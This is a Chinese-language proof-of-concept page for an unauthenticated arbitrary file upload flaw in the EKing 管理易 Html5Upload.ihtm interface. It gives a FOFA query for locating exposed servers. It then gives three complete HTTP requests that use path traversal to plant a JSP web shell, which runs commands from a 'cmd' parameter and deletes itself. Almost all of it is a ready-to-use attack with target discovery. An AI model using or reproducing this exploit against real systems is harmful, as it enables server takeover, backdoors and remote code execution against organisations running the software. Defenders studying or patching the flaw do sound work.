 # eking管理易Html5Upload接口存在任意文件上传漏洞

eking管理易Html5Upload接口存在任意文件上传漏洞，未经身份验证的远程攻击者可利用此漏洞上传任意文件，在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```yaml
app="EKing-管理易"
```

## poc

创建临时文件

```yaml
POST /Html5Upload.ihtm HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

comm_type=INIT&sign_id=shell&vp_type=default&file_name=../../shell.jsp&file_size=2048
```

写入文件内容

```jinja2
POST /Html5Upload.ihtm HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryj7OlOPiiukkdktZR
Connection: close

------WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Disposition: form-data; name="comm_type"

DATA
------WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Disposition: form-data; name="sign_id"

shell
------WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Disposition: form-data; name="data_inde"

0
------WebKitFormBoundaryj7OlOPiiukkdktZR
Content-Disposition: form-data; name="data"; filename="chunk1"
Content-Type: application/octet-stream

<% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();int a = -1;byte[] b = new byte[2048];out.print("<pre>");while((a=in.read(b))!=-1){out.println(new String(b,0,a));}out.print("</pre>");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>
------WebKitFormBoundaryj7OlOPiiukkdktZR--
```

保存文件

```javascript
POST /Html5Upload.ihtm HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

comm_type=END&sign_id=shell&file_name=../../shell.jsp
```

![image-20241012132747292](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121327356.png)

![image-20241012132754554](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121327613.png)